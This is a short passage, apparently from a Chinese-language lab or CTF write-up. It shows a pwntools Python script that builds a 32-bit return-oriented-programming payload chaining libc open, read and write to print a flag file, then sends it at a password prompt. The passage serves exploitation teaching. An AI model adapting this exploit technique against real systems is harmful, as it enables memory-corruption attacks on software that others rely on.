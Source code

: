 ```python
payload += p32(base_addr + libc.symbols['open'])
payload += p32(base_addr + PPR)
payload += p32(writable_addr)
payload += p32(0)
# read the flag
# read(3, writable_addr, 10)
payload += p32(base_addr + libc.symbols['read'])
payload += p32(base_addr +PPPR)
payload += p32(3)
payload += p32(writable_addr)
payload += p32(10)
# write the flag
# write(1, writable_addr, 10)
payload += p32(base_addr + libc.symbols['write'])
payload += p32(base_addr + PPPR)
payload += p32(1)
payload += p32(writable_addr)
payload += p32(10)
io.sendlineafter(b'Password:', payload)
io.sendlineafter(b'!', b'/tmp/flag')
io.interactive()
```

### 1.2.4 实验结果

![image-20230421162941816](assets/image-20230421162941816.png)
